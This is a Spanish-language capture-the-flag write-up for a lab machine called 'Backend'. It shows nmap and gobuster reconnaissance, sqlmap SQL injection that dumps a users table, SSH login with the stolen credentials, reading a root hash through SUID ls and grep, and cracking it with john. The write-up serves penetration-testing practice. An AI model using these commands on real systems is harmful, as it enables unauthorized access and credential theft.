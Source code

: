 ```yaml
---
description: '✍️ Autor: 4bytes🔍 Dificultad: Fácil  📅 Fecha de creación: 29/08/2024'
---
```


# Backend

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (917).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (916).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea una página bajo desarollo podemos ver que hay una pestaña de Login.

<figure><img src="../../.gitbook/assets/image (918).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (919).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/image (921).png" alt=""><figcaption></figcaption></figure>

Probamos con credenciales básicas y con una inyección básica pero nada.

### 🚀 **EXPLOTACIÓN**

Vamos a probar con **sqlmap** para ver que bases de datos hay.

```bash
sqlmap -u "http://172.17.0.2/login.html" --forms --batch --dbs
```

<figure><img src="../../.gitbook/assets/image (920).png" alt=""><figcaption></figcaption></figure>

Ahora vemos el contenido de la base de datos **users**.

```bash
sqlmap -u "http://172.17.0.2/login.html" --forms --batch -D users --tables
```

<figure><img src="../../.gitbook/assets/image (922).png" alt=""><figcaption></figcaption></figure>

Ahora vemos el contenido de la tabla de **usuarios**.

```bash
sqlmap -u "http://172.17.0.2/login.html" --forms --batch -D users -T usuarios --dump
```

<figure><img src="../../.gitbook/assets/image (923).png" alt=""><figcaption></figcaption></figure>

Probamos con esas credenciales pero con pepe logramos loguearnos en SSH.

```bash
ssh pepe@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (924).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

<figure><img src="../../.gitbook/assets/image (925).png" alt=""><figcaption></figcaption></figure>

Buscamos permisos **SUID**.

```bash
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (926).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **ls** y **grep** por lo que buscamos en esta [página ](https://gtfobins.github.io/)cómo explotarlo.

```bash
/usr/bin/ls -la /root
/usr/bin/grep '' /root/pass.hash
```

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

Vemos que es un hash en formato **MD5** por lo que vamos a desencriptarlo.

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

<figure><img src="../../.gitbook/assets/image (928).png" alt=""><figcaption></figcaption></figure>

Nos logueamos como root.

<figure><img src="../../.gitbook/assets/image (929).png" alt=""><figcaption></figcaption></figure>
